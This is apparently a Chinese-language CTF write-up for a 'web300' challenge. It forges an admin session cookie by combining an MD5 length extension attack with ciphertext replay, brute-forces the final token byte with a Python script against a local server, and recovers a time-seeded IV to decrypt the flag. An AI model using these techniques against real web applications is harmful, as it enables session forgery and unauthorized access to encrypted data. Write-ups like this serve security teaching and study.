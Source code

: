 
### web300 writeup 

在 www.tar.gz 下载到源码,进行审计:
发现flag已经加密了

```php
require_once('encrypt.php');
file_put_contents('./backup.txt', token_encrypt(file_get_contents('./flag.txt')));
```
由于不知道key,所以要想解密需要用管理员身份:
```php
if ($admin) {
    $text = '';
    if (isset($_POST['do'])) {
        switch ($_POST['do']) {
            case 'encrypt':
                $text = bin2hex(mcrypt_encrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
            case 'decrypt':
                $text = bin2hex(mcrypt_decrypt(MCRYPT_RIJNDAEL_128, get_key(), hex2bin($_POST['text']), MCRYPT_MODE_CFB, hex2bin($_POST['iv'])));
                break;
        }
    }
}
```
所以思路是用重放攻击来伪造管理员身份.
注册一个用户名为 `$user|1|$hash` 的账号,然后用它的身份登陆(登陆不会成功),但是会产生cookie.截取cookie合适的长度,得到`$user|1|$hash`的加密结果,伪造管理员身份.

但是 `$user|1|$hash` 中的`$hash` 没有办法知道,并且在登陆的时候做了验证.
```php
if (isset($_COOKIE['token'])&&isset($_COOKIE['sign'])) {
	$sign = $_COOKIE['sign'];
	$token = $_COOKIE['token'];
	$arr = explode('|', token_decrypt($token));

	if (count($arr) == 3) {
		if (md5(get_indentify().$arr[0]) === $arr[2] && $sign === $arr[2]) {
			$user = $arr[0];
			$admin = (int)$arr[1];
		}
	}
}
```
来看 `sign`和`token` 的产生过程:
```php
$user = $_POST['user'];
				// get_indentify() 获取10位的key,做一个身份签名,防止身份伪造
				
				$md5 = md5(get_indentify().$user);
				$admin = 0;
				// $token = token_encrypt("$user|$admin|$md5");
				$token = token_encrypt("$user|$admin|$md5");
				setcookie('sign',$md5,time()+5*60,"/",'',false,true);
				setcookie('token',$token,time()+5*60,"/",'',false,true);
```

根据`$sign = md5(get_indentify().$user)`知道,这里$sign可以用hash长度扩展攻击,
并且根据注释知道前缀是10位的.

再构造用户名的时候需要注意,因为在加密前进行了位扩展
```php
function pad($str) {
	return $str . str_repeat(chr(BS - strlen($str) % BS), (BS - strlen($str) % BS));
}
```
不是16字节的倍数,就补够16的字节的倍数,如果是16字节的倍数,就会在后面再加16字节,这里构造的用户名不应该是16字节的整数倍,而应该是16字节的倍数减1位.
因为需要hash扩展攻击,需要的长度比较多,构造79位的可能容不下hash扩展攻击的冗余字节,所以我这里构造95位的用户名.

解题:
1. 注册一个用户名 wonderkun 获取签名: ee11925035598658e4ea6364806d6796

2. 用户名是9位的,需要扩展的位数为 95-32-3-9=51,所以需要扩展51位, append 的数据随意,只要凑够51位就可以

```bash 
$ python md5pad.py  ee11925035598658e4ea6364806d6796 tadmin 19 
Payload:  '\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x98\x00\x00\x00\x00\x00\x00\x00tadmin'
Payload urlencode: %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin
md5: fe46d7d8924ec23d69f8d01432de41aa
```
3. 所以需要构造的用户名为 `wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa`

用这个账号注册一个用户,然后用这个账号登陆获取cookie的token的前190位,就是这95的加密结果,但是95位是需要进行pad的,扩展了一位,所以最后一位的加密结果需要爆破出来:

给出了 python的poc:

```python
#!/usr/bin/python
# coding:utf-8 


import requests

def login():
    url = "http://127.0.0.1:4444/index.php?action=login"
    data = "user=wonderkun%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%98%00%00%00%00%00%00%00tadmin|1|fe46d7d8924ec23d69f8d01432de41aa&pwd=1"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    
    res = requests.post(url,data=data,allow_redirects=False,proxies={"http":"127.0.0.1:8080"},headers=header)
    return res.cookies['token'][:190]
def getAdminToken(token):
    randstr="0123456789abcdef"
    for i in randstr:
        for j in randstr:
            # token = token+i+j
            url="http://127.0.0.1:4444/index.php?action=home"
            headers = {
                'Cookie':'sign='+'fe46d7d8924ec23d69f8d01432de41aa'+';'+'token='+token+i+j
            }                    
            # print url
            proxy = {"http":"127.0.0.1:8080"}
            res=requests.get(url,headers=headers,proxies=proxy)
            if "User" in res.text:
                print "[*] Cookie:",headers['Cookie']
                return
            else:
                print  "[*] failed"
                # print res.text

if __name__ == "__main__":
    tokenPre=login()
    print tokenPre
    getAdminToken(tokenPre)

```
获取一个可用的cookie,就可以获取一个管理员身份:
```
[*] Cookie: sign=fe46d7d8924ec23d69f8d01432de41aa;token=2a3654363a57be283fbfc6d730c55c646cfe9b1a04c1ff10aa80327828ab6ca990b95fe6a00a9f6494abb1d47321643ed79e8c6b33bb6074e91a5d5be9f92fb5933500e7859129b4dc2c3f99b7738fa4dfed60e2fc8cb34f959e4287ce53185c
```
接下来获取$iv,看backup.txt的时间,
```
Apr 12 09:26  转化为时间戳为: 1491960409 
```
获取$iv:

** 注意这里要用64的linux操作系统产生 iv,windows和linux产生的随机序列是不一样的 **

```php
function getRandChar($length){
	$str = null;
	$strPol = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz";
	for($i=0;$i<$length;$i++){
		$n = rand(0, strlen($strPol) - 1);
		$str.=$strPol[$n];
	}
	return $str;
}
srand( 1491960409/ 300);
$iv = getRandChar(16);
echo bin2hex($iv);
echo "\n";
```
获取$iv = 6f39784745597a644b52354a50497976
然后解密:backup.txt的内容:
得到flag: flag{660b7b8c06e3150d174a3ec9fcd7ab9d}
